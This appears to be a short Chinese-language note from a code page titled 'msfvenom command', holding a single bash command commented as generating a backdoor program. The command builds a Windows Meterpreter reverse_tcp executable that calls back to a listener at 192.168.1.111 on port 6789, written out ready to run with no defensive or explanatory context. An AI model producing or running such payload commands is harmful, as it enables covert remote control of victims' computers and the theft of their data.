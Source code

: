 # msfvenom 命令

```bash
# 生成后台程序
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.1.111 lport=6789 -f exe -o /mnt/d/payload.exe
```
